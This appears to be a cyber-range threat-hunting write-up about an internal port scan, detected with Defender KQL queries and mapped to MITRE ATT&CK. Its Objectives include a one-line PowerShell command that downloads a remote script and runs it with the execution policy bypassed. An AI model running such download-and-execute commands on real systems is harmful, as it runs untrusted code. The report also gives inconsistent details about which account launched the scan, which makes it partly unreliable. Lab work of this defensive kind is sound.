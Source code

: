 ## **Sudden Network Slowdown Incident**

## **Incident Investigation Report**

## **Scenario:**
I noticed a significant network performance degradation on some of the older devices attached to the network in the `10.0.0.0/16` network. After ruling out external DDoS attacks, the security team suspects something might be going on internally. All traffic originating from within the local network is by default allowed by all hosts. There is also unrestricted use of PowerShell and other applications in the environment. It’s possible someone is either downloading large files or doing some kind of port scanning against hosts in the local network.

## **Objectives**
- Run a Powershell script on our VM to scan the local network using Powershell script containing a file name **portscan.ps1**
  - Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1' -OutFile 'C:\programdata\portscan.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
- Gather relevant data from logs, network traffic, and endpoints.
- Consider inspecting the logs for excessive successful/failed connections from any devices.  If discovered, pivot and inspect those devices for any suspicious file or process events.
- Ensure data is available from all key sources for analysis.
- Ensure the relevant tables contain recent logs:
  - DeviceNetworkEvents
  - DeviceFileEvents
  - DeviceProcessEvents
- **Test-NetConnection (PowerShell): ongoing PowerShell cmdlet for network testing.**
<a href="https://imgur.com/qphSE1X"><img src="https://i.imgur.com//qphSE1X.png" tB2TqFcLitle="source: imgur.com" /></a>
  
## **Incident Summary and Findings**

```kql
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| summarize FailedConnectionsAttempts = count() by DeviceName, ActionType, LocalIP, RemoteIP
| order by FailedConnectionsAttempts desc
```
### By using the above query we see that our VM **port-scanner-vm** was found failing several connection requests against two other hosts on the same network.

<a href="https://imgur.com/V72MMqB"><img src="https://i.imgur.com//V72MMqB.png" tB2TqFcLitle="source: imgur.com" /></a>
## Detail:
<a href="https://imgur.com/AtEpCJh"><img src="https://i.imgur.com//AtEpCJh.png" tB2TqFcLitle="source: imgur.com" /></a>

```kql
let VMName = "port-scanner-vm";
DeviceProcessEvents
| where DeviceName == VMName
| where InitiatingProcessCommandLine contains "portscan"
| order by Timestamp desc
| project Timestamp, FileName, InitiatingProcessCommandLine
```
## We observed the port scan script was launched by AccountName 'henoks'. This is not expected behavior and it is not something that was setup by the admins. I isolated the device and ran a malware scan. The malware scan produced no results, so out of caution, following SOP I kept the device isolated and with senior analyst approval i put in a ticket to have workstation re-image/rebuilt. 
<a href="https://imgur.com/1tcE368"><img src="https://i.imgur.com//1tcE368.png" tB2TqFcLitle="source: imgur.com" /></a>

### **Timeline Overview**
1. **port-scanner-vm was found failing several connection requests against two other hosts on the same network.**
2. **Process Analysis:**
   - After observing failed connection requests from a suspected host (`10.0.1.120`) in chronological order, I noticed a port scan was taking place due to the sequential order of the ports. There were several port scans being conducted.

   **Detection Query (KQL):**
   ```kql
   let IPInQuestion = "10.0.1.120";
   DeviceNetworkEvents
   | where ActionType == "ConnectionFailed"
   | where LocalIP == IPInQuestion
   | order by Timestamp desc
   ```
<a href="https://imgur.com/95u1al2"><img src="https://i.imgur.com//95u1al2.png" tB2TqFcLitle="source: imgur.com" /></a>
 
3. **Network Check:**
   - **Observed Behavior:** I pivoted to the `DeviceProcessEvents` table to see if we could see anything that was suspicious around the time the port scan started. We noticed a PowerShell script named `portscan.ps1` launched at `2025-01-06T06:37:00.774381Z`.
<a href="https://imgur.com/DMWTeAZ"><img src="https://i.imgur.com//DMWTeAZ.png" tB2TqFcLitle="source: imgur.com" /></a>
5. **Response:**
   - We observed the port scan script was launched by the SYSTEM account. This is not expected behavior and it is not something that was setup by the admins. I isolated the device and ran a malware scan. The malware scan produced no results, so out of caution, I kept the device isolated and put in a ticket to have it re-image/rebuilt. Shared findings with the manager, highlighting automated archive creation. Awaiting further instructions.
 

![Screenshot 2025-01-06 112548](https://github.com/user-attachments/assets/545363b9-cf69-4609-b40a-1af34c18c86e)


---

# MITRE ATT&CK Techniques for Incident Notes

| **Tactic**                | **Technique**                                                                                       | **ID**       | **Description**                                                                                                                                 |
|---------------------------|---------------------------------------------------------------------------------------------------|-------------|-------------------------------------------------------------------------------------------------------------------------------------------------|
| **Initial Access**         | [Exploitation of Remote Services](https://attack.mitre.org/techniques/T1210/)                     | T1210        | Failed connection attempts may indicate an attacker probing for open ports or exploitable services.                                            |
| **Discovery**              | [Network Service Scanning](https://attack.mitre.org/techniques/T1046/)                           | T1046        | Sequential port scans performed using a script (`portscan.ps1`) align with service discovery activity.                                         |
| **Execution**              | [Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/)  | T1059.001    | The use of PowerShell (`portscan.ps1`) for conducting network scanning demonstrates script-based execution.                                    |
| **Persistence**            | [Account Manipulation](https://attack.mitre.org/techniques/T1098/)                               | T1098        | Unauthorized use of the SYSTEM account to launch a script indicates potential persistence through credential manipulation.                     |
| **Privilege Escalation**   | [Valid Accounts](https://attack.mitre.org/techniques/T1078/)                                     | T1078        | SYSTEM account execution suggests privilege escalation by leveraging valid but unauthorized credentials.                                       |
| **Defense Evasion**        | [Obfuscated Files or Information](https://attack.mitre.org/techniques/T1027/)                    | T1027        | If `portscan.ps1` contained obfuscated commands, this technique may have been used to avoid detection.                                         |
| **Impact**                 | [Network Denial of Service](https://attack.mitre.org/techniques/T1498/)                          | T1498        | The significant network slowdown could be a side effect or an intentional impact of excessive scanning activity.                              |

---

## Steps to Reproduce:
1. Provision a virtual machine with a public IP address
2. Ensure the device is actively communicating or available on the internet. (Test ping, etc.)
3. Onboard the device to Microsoft Defender for Endpoint
4. Verify the relevant logs (e.g., network traffic logs, exposure alerts) are being collected in MDE.
5. Execute the KQL query in the MDE advanced hunting to confirm detection.

---
